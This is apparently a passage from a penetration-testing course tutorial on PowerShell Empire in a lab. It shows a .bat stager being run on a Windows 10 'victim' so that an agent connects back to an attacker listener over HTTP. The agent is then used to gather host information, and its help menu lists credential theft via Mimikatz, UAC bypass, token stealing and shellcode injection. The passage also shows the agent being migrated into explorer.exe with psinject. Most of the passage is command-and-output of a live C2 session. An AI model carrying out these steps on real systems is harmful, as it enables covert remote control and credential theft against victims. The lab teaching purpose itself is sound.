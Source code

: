 Now that we have our listener running and our stager prepared, we will need to deploy an agent on the victim. An agent is simply the final payload retrieved by the stager, and it allows us to execute commands and interact with the system. The stager (in this case the .bat file) deletes itself and exits once it finishes execution.

Once the agent is operational on the target, it will set up an AES-encrypted communication channel with the listener using the data portion of the HTTP GET and POST requests.

We will first copy the launcher.bat script to the Windows 10 workstation and execute it from a command prompt.

![Figure 1: Execution of launcher](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/pse/2d915cc1932f72dfdd09d0d38c204d42-pse01.png)

Figure 1: Execution of launcher

After successful execution of the launcher script, an initial agent call will appear in our Empire session as shown in Listing 11:

```
(Empire: stager/windows/launcher_bat) > [+] Initial agent S2Y5XW1L from 10.11.0.22 now active (Slack)
```

Next, we can use the agents command to display all active agents.

```
(Empire: stager/windows/launcher_bat) > agents

[*] Active agents:

Name       Lang  Internal IP  Machine Name  Username     Process             Delay
---------  ----  -----------  ------------  ---------    -------             -----
S2Y5XW1L   ps    10.11.0.22   CLIENT251     corp\offsec  powershell/2976     5/0.0

(Empire: agents) > 
```

Now, we can use the interact command followed by the agent name to interact with our agent and execute commands.

In this case, we will run sysinfo to retrieve information about the compromised host.

```
(Empire: agents) > interact S2Y5XW1L

(Empire: S2Y5XW1L) > sysinfo

(Empire: S2Y5XW1L) > sysinfo: 0|http://10.11.0.4:80|corp|offsec|CLIENT251|10.11.0.22|Microsoft Windows 10 Pro|False|powershell|2976|powershell|5

Listener:         http://10.11.0.4:80
Internal IP:    10.11.0.22
Username:         corp\offsec
Hostname:       CLIENT251
OS:               Microsoft Windows 10 Pro
High Integrity:   0
Process Name:     powershell
Process ID:       2976
Language:         powershell
Language Version: 5
...
```

Note that the command does not return immediately. This delay is caused by the _DefaultDelay_ parameter, which is currently set to the default value of five seconds.

The help command (Listing 14) shows all available commands, such as upload, download, and screenshot, which are self-explanatory. In addition, we can use shell to execute a command and spawn to create an additional agent on the same host.

```
(Empire: S2Y5XW1L) > help

Agent Commands
==============
agents            Jump to the agents menu.
back              Go back a menu.
bypassuac         Runs BypassUAC, spawning a new high-integrity agent for a listener. 
clear             Clear out agent tasking.
creds             Display/return credentials from the database.
download          Task an agent to download a file.
exit              Task agent to exit.
help              Displays the help menu or syntax for particular commands.
info              Display information about this agent
injectshellcode   Inject listener shellcode into a remote process. Ex. injectshellcode
jobs              Return jobs or kill a running job.
kill              Task an agent to kill a particular process name or ID.
killdate          Get or set an agent's killdate (01/01/2016).
list              Lists all active agents (or listeners).
listeners         Jump to the listeners menu.
lostlimit         Task an agent to change the limit on lost agent detection
main              Go back to the main menu.
mimikatz          Runs Invoke-Mimikatz on the client.
psinject          Inject a launcher into a remote process. Ex. psinject <listener> <pi
pth               Executes PTH for a CredID through Mimikatz.
rename            Rename the agent.
resource          Read and execute a list of Empire commands from a file.
revtoself         Uses credentials/tokens to revert token privileges.
sc                Takes a screenshot, default is PNG. Giving a ratio means using JPEG.
scriptcmd         Execute a function in the currently imported PowerShell script.
scriptimport      Imports a PowerShell script and keeps it in memory in the agent.
searchmodule      Search Empire module names/descriptions.
shell             Task an agent to use a shell command.
sleep             Task an agent to 'sleep interval [jitter]'
spawn             Spawns a new Empire agent for the given listener name. Ex. spawn <li
steal_token       Uses credentials/tokens to impersonate a token for a given process I
sysinfo           Task an agent to get system information.
updateprofile     Update an agent connection profile.
upload            Task an agent to upload a file.
usemodule         Use an Empire PowerShell module.
workinghours      Get or set an agent's working hours (9:00-17:00).

(Empire: S2Y5XW1L) > 
```

As with a meterpreter payload, Empire allows us to migrate our payload into a different process. We can do that by first using ps to view all running processes. Once we choose our target process, we'll migrate the payload with psinject command, including the name of the listener and the process id as our command arguments:

```
(Empire: S2Y5XW1L) > ps
ProcessName            PID Arch UserName    MemUsage 
-----------            --- ---- --------    -------- 
Idle                     0 x86  N/A         0.00 MB  
System                   4 x86  N/A         0.00 MB  
........
explorer              3568 x86  corp\offsec 3.41 MB  
svchost               3820 x86  corp\offsec 9.18 MB  
........

(Empire: S2Y5XW1L) > psinject http 3568
[*] Tasked U9M3SBHG to run TASK_CMD_JOB
[*] Agent U9M3SBHG tasked with task ID 4
[*] Tasked agent U9M3SBHG to run module powershell/management/psinject
Job started: BCMWAV
[*] Agent U9M3SBHG returned results
[*] Sending POWERSHELL stager (stage 1) to 10.11.0.22
[*] New agent DWZ49BAP checked in
[+] Initial agent DWZ49BAP from 10.11.0.22 now active (Slack)
[*] Sending agent (stage 2) to DWZ49BAP at 10.11.0.22 //-->
(Empire: S2Y5XW1L) > 
```

It is important to note that, unlike the migration feature of the meterpreter payload, once the process migration is completed, the original Empire agent remains active and we must manually switch to the newly created agent as shown below:

```
(Empire: DWZ49BAP) > agents

[*] Active agents:

Name       Lang  Internal IP  Machine Name  Username     Process             Delay
---------  ----  -----------  ------------  ---------    -------             -----
S2Y5XW1L   ps    10.11.0.22   CLIENT251     corp\offsec  powershell/2976     5/0.0
DWZ49BAP   ps    10.11.0.22   CLIENT251     corp\offsec  explorer/3568       5/0.0
 
(Empire: agents) > interact DWZ49BAP
(Empire: DWZ49BAP) > 
```